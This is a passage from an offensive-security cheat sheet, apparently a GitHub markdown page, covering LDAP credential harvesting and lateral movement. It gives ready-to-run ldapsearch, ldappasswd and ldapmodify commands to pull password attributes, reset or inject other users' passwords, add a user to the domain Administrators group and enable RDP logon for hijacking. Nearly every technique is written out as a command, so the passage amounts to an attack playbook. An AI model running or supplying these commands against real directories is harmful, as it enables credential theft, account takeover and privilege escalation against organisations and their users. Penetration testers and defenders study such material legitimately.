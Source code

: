 ## 12. LDAP-Specific Credential Harvesting and Manipulation

#### 12.1 LDAP Password Harvesting from User Accounts
- **Extract Passwords**: Searches for and extracts password-related attributes from user accounts, although successful extraction depends on weak or misconfigured permissions.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(|(userPassword=*)(unicodePwd=*))"
  ```

#### 12.2 Modifying LDAP User Passwords via LDAPS
- **Secure Password Modification**: Uses LDAPS (LDAP over SSL) to securely modify a user's password in the directory, ensuring encrypted transmission during the operation.
  ```bash
  ldappasswd -H ldaps://<target_ip> -x -D "CN=<username>,DC=domain,DC=com" -W -s '<new_password>' "CN=<target_user>,DC=domain,DC=com"
  ```

#### 12.3 LDAP Credential Injection for Lateral Movement
- **Inject Credentials**: Injects a new `userPassword` attribute into a user object, potentially allowing the attacker to authenticate as that user across the domain.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  add: userPassword
  userPassword: {CRYPT}<hashed_password>
  EOF
  ```

## 13. LDAP-Specific Lateral Movement Techniques

#### 13.1 Lateral Movement via LDAP Attribute Modification
- **Move User to Administrative Group**: Adds a target user to the `Administrators` group via LDAP attribute modification, granting the user elevated privileges across the domain.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=Administrators,CN=Builtin,DC=domain,DC=com
  changetype: modify
  add: member
  member: CN=<target_user>,DC=domain,DC=com
  EOF
  ```
 
#### 13.2 LDAP-Based RDP Hijacking
- **Hijack RDP Sessions via LDAP**: Modifies the `msTSAllowLogon` attribute to enable RDP logon for a target user, facilitating lateral movement via RDP session hijacking.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  replace: msTSAllowLogon
  msTSAllowLogon: TRUE
  EOF
  ```
